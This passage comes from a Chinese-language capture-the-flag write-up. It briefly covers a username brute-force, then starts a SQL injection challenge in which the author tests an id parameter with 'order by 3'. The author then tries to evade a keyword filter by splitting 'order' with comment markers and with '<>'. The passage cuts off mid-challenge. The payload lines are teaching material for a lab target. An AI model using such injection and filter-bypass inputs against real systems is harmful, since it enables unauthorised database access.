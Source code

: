 爆破会得到一个正确的username的值，然后直接修改后访问就可以得到flag  
![](31.png)

### [](#11-SQL "11.SQL")11.SQL

> 题目内容：出题人就告诉你这是个注入，有种别走！

进入后就说flag在数据库中，那就开始注入吧，测试之后发现不需要单引号，那么看看有几个字段，  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 order by 3`  
![](32.png)

发现返回了`inj code!` 判断肯定是过滤了关键字，那么用注释符绕/**/过：  
\`<http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1> or/**/der by 3\`

![](33.png)  
页面没有返回，猜测可能是注释符也被过滤了，那就试试`<>`这个符号  
`http://40de7769ffb54dc184655e6940d6e0fc0b1a530ddb0f468f.game.ichunqiu.com/index.php?id=1 or<>der by 3`  